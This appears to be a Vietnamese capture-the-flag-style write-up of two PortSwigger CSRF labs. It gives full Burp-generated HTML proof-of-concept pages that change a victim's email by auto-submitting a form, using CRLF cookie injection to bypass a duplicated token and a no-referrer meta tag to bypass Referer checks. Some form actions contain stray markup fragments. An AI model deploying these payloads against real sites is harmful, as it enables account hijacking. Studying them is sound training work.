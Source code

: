 ![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_duplication_checkcsrf.jpg?raw=true)

Và kèm theo là chức năng search vẫn có khả năng set cookie như bài trước.
Tuy nhiên chỉ cần csrf đều giống nhau thì hoàn toàn có thể  bypass qua được loại token này.
Dựa vào đó chúng ta có thể tạo ra payload HTML bằng BurpSuite như sau: 

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_duplication_engagement.jpg?raw=true)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="![img](https://ac6e1fc01f3453d98079111f000b004d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="hidden" name="csrf" value="malware_fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="http://ac6e1fc01f3453d98079111f000b004d.web-security-academy.net/?search=halo%0d%0aSet-Cookie:%20csrf=malware_fake" onerror="document.forms[0].submit();"/>
  </body>
</html>
```


Sau đó đưa payload vào exploit server để Store lên website và Deliver to Victim to Solve.



### Lab: CSRF where Referer validation depends on header being present

Bài lab mô tả lỗ hổng là chức năng thay đổi email của phòng thí nghiệm này dễ bị tấn công bởi CSRF. Nó cố gắng chặn các yêu cầu tên miền chéo nhưng có một dự phòng không an toàn.

Để giải quyết phòng thí nghiệm, hãy sử dụng máy chủ khai thác của bạn để lưu trữ một trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.

![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_present_changecsrf.jpg?raw=true)
 Việc thay đổi csrf đã bị chặn lại và trang web đã không được trả về kết quả .
 Như vậy chúng ta chỉ việc tạo payload dựa trên request trên như sau:
 
![img](https://github.com/datnlq/Source/blob/main/Cross-site%20Request%20Forgery/image/csrf_present_engagement.jpg?raw=true)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head><meta name="referrer" content="no-referrer"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="![img](https://aca21f281f81e414809ee52500e10054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="datnlq&#64;hacker&#46;de" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
Sau đó truy cập vào exploit server đã được cung cấp sẵn và Deliver to solve lab.
